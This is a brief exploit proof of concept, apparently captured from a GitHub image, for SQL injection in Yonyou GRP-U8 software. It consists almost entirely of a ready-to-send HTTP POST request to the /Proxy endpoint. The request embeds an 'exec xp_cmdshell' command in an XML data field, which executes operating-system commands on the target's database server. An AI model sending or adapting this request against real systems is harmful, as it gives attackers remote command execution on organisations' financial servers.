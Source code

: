 用友GRP-u8 注入 
利用POC: POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT> <R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
